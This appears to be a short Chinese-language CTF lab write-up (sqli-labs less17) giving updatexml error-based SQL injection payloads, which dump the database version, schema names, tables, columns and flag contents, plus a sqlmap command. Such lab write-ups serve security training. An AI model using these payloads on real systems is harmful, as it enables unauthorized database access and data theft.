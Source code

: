 **只粘贴最后一步和结果**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732255050847-e0a17c31-7401-4659-aeb4-269a809994c4.png)

结果

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732255080675-c801e8f2-13d9-4920-8431-cda677c7a013.png)

##### **updatexml报错注入**
```sql
# 爆版本
1' and (updatexml(1,concat(0x5c,version(),0x5c),1))#
# 爆当前数据库
1' and (updatexml(1,concat(0x5c,database(),0x5c),1))#
# 爆所有数据库
1' and (updatexml(1,concat(0x5c,(select group_concat(schema_name) from information_schema.schemata),0x5c),1))#
# 爆表名
1' and (updatexml(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema='ctftraining'),0x5c),1))#
# 爆字段名
1' and (updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_name='flag'),0x5c),1))#
# 爆字段内容
1' and (updatexml(1,concat(0x5c,(select group_concat(flag) from ctftraining.flag),0x5c),1))#
```

##### sqlmap
```sql
python sqlmap.py -r post_test\less17.txt --technique E -dbs
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732257712411-9a9d5bea-e429-419c-99f7-86d83c5d2d44.png)

**后面的不说了**





